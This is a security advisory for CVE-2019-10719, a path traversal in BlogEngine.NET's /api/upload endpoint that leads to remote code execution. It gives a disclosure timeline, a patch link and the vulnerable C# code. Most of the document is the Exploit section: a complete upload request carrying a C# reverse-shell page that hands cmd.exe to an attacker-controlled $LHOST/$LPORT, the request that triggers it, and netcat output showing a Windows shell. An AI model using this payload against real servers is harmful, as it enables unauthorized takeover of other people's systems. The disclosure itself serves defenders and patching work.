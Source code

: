 A remote code execution (RCE) vulnerability, **CVE-2019-10719**, was discovered in BlogEngine 3.3.7 and earlier.  Leveraging a path traversal in `/api/upload`, a malicious file could be written to a directory which would allow it to be accessed and executed.  **Edit post** permissions are required to upload the shell.  Anyone can trigger the shell without authentication.

### Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases/tag/v3.3.8.0>

### Timeline

* 30 Mar 2019 - Issue Identified
* 31 Mar 2019 - Developer contacted
* 04 Apr 2019 - Details of vulnerability sent
* 17 Jun 2019 - Public Disclosure

### Description

BlogEngine.NET allows users to upload files through the `/api/upload` endpoint.  Files uploaded using **file**, **filemgr**, or **image** as the `action` ultimately call `BlogService.UploadFile` and create the file:

~~~{command="BlogEngine/BlogEngine.NET/AppCode/Api/UploadController.cs"}
if (action == "filemgr" || action == "file")
{
    string[] ImageExtensnios = { ".jpg", ".png", ".jpeg", ".tiff", ".gif", ".bmp" };

    if (ImageExtensnios.Any(x => fileName.ToLower().Contains(x.ToLower())))
        action = "image";
    else
        action = "file";
}
<r:snip></r:snip>
if (action == "image")
{
    if (Security.IsAuthorizedTo(Rights.EditOwnPosts))
    {
        dir = BlogService.GetDirectory(dirName);
        var uploaded = <r:b>BlogService.UploadFile(file.InputStream, fileName, dir, true);</r:b>
        return Request.CreateResponse(HttpStatusCode.Created, uploaded.AsImage.ImageUrl);
    }
}
if (action == "file")
{
    if (Security.IsAuthorizedTo(Rights.EditOwnPosts))
    {
        dir = BlogService.GetDirectory(dirName);
        var uploaded = <r:b>BlogService.UploadFile(file.InputStream, fileName, dir, true);</r:b>
        retUrl = uploaded.FileDownloadPath + "|" + fileName + " (" + BytesToString(uploaded.FileSize) + ")";
        return Request.CreateResponse(HttpStatusCode.Created, retUrl);
    }
}
~~~

The **dirPath** parameter is used to specify a folder the file will be written to.  **dirPath** is vulnerable to directory traversal, allowing files to be written to any directory.  

A malicious `PostView.ascx` can be written to a sub-directory of **/Custom/Themes**, bypassing the fix for **CVE-2019-6714**.  If the folder does not exist, it will be created and contain the malicious `PostView.ascx`.

<pagebreak></pagebreak>

### Exploit

<https://github.com/irbishop/CVEs/blob/master/2019-10719/exploit.py>

The following will upload the file to **/Custom/Themes/RCE_Test**. **RCE_Test** will be created if it does not exist:

~~~
POST /api/upload?action=filemgr&dirPath=%2f..%2f..%2fCustom%2fThemes%2fRCE_Test HTTP/1.1
Host: <r:var>$RHOST</r:var>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/plain
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: .AUXBLOGENGINE-96d5b379-7e1d-4dac-a6ba-1e50db561b04=<r:redacted>Test</r:redacted>
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------12143974373743678091868871063
Content-Length: 2085

-----------------------------12143974373743678091868871063
Content-Disposition: form-data; filename="PostView.ascx"

<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;
    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);
	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("<r:var>$LHOST</r:var>", <r:var>$LPORT</r:var>)) {
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);
				StringBuilder strInput = new StringBuilder();
				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
    } } } } }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
	   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                   	streamWriter.WriteLine(strOutput);
                   	streamWriter.Flush();
			} catch (Exception err) { }
        }
    }
</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>

-----------------------------12143974373743678091868871063--
~~~

<pagebreak></pagebreak>

Open a `netcat` listener, `nc -nlvp $LPORT`, and browse to the application root with the **theme** set to RCE_Test.

~~~
GET /?theme=RCE_Test HTTP/1.1
Host: <r:var>$RHOST</r:var>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
~~~

~~~{command="nc -nlvp $LPORT"}
listening on [any] <r:var>$LPORT</r:var> ...
connect to [<r:var>$LHOST</r:var>] from (UNKNOWN) [<r:var>$RHOST</r:var>] 49958
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
~~~
